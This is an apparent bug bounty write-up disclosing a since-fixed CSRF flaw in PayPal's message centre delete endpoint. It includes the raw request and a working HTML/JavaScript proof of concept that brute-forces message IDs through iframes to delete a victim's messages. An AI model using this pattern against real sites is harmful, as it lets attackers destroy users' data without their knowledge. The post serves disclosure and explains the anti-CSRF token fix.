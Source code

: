 ```yaml
---
layout: post
title:  "I could’ve deleted all SMC messages. using Brute Force Technique – PayPal"
---
```


While playing around with the SMC platform at paypal.com, I came across an interesting endpoint which doesn’t include CSRF token within its request when you delete a message. Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. With a little help from social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, in this case, a CSRF attack can force the user to delete all of his messages without the victim’s notice.

### PayPal Message Center [SMC]:

PayPal has created a Message Center for its customers like most financial institutions and eBay provides. The Message Center gives PayPal the ability to communicate with you within the framework of a new mailbox inside your PayPal account. It also provides you with a way to validate customer service emails that you may consider suspicious. This way, you can trust that the communications you receive are from PayPal itself. How does it work?

Emails from PayPal will be put into the Message Center. A notification will be sent to let you know that you have a message.

1. Open https://www.paypal.com/ma/selfhelp/contact/email/t_s
2. At the middle, select which issue/topic do you want to ask about.
3. Click “SEND”, then wait for them to reply with a solution/information

### The Interesting HTTP-Request:

```
GET /smc/delete-msg/?message_id=38223655 HTTP/1.1
Host: www.paypal.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: https://www.paypal.com/smc/customer
Cookie: **********************************************************
Connection: close
```

Apparently, there’s no CSRF token right there but there’s a message_id which definitely could replace the CSRFtoken on its job, due to its difficulty to be guessed.

## The Attack scenario/Proof of Concept:

The only way that could let us find the right message_id is to use a dynamic functionality written by JavaScript to brute force the message_id through the URL.

```
<html>
<body>
<div id="elementID"></div>
<script>
   for (var i=38223650; i<=38223800;i++) {
    var url = "https://www.paypal.com/smc/delete-msg/?message_id=";
      url = url + String(i);
      frame = document.createElement('iframe');
      frame.setAttribute('src', url);
      frame.setAttribute('width', '30px');
      frame.setAttribute('height', '50px');
      (document.getElementById('elementID')).appendChild(frame);
   }
</script>
</body>
</html>
```

Now, we just have to save this file as an HTML file and upload it to our server in order to send it to the victim. When the victim will access this page, it will create a few new iframes with the SRC attribute set to:


```
https://www.paypal.com/smc/delete-msg/?message_id=38223650
https://www.paypal.com/smc/delete-msg/?message_id=38223651
https://www.paypal.com/smc/delete-msg/?message_id=38223652
https://www.paypal.com/smc/delete-msg/?message_id=38223653
https://www.paypal.com/smc/delete-msg/?message_id=38223654
https://www.paypal.com/smc/delete-msg/?message_id=38223655
https://www.paypal.com/smc/delete-msg/?message_id=38223656
```

So, what’s happening here! When it creates an iframe of https://www.paypal.com/smc/delete-msg/?message_id= it’s going to use the number 38223650 as the value of the message_id parameter and submit the URL. Then it’s going to keep increment the value of the message_id by one more digit +1 until it covers all the messages inside the inbox/sent folder. I could also make this script start from 0 to 9999999.. which means there’s a high chance that the script will cover all valid message_id inside the victim’s account.

![](/ayoubmokhtar.github.io/_posts/images/post-1-image001.png?raw=true)

The idea behind creating a new iframe is preferable because it takes less memory to process so chances of a crash are also less. And if it DOES the victim won’t control the browser until the script is done. Otherwise, the IFrames keep processing while the victim is waiting for the browser to be stabilized.


## How it got FIXED:

The PayPal security team resolved this issue using the most popular implementation to prevent the CSRF vulnerability, which is a secret/random token that is associated with a particular user called Anti-CSRF, then include it within every sensitive request that requires a server-side verification before authorizing any sensitive action.

![](/ayoubmokhtar.github.io/_posts/images/post-1-image002.png?raw=true)

### Timeline:

- 15th of January 2018 – Bug reported.
- 24th of January 2018 – First response from PayPal, More Information Required –Researcher.
- 23rd of Mars 2018 – The vulnerability is fixed now.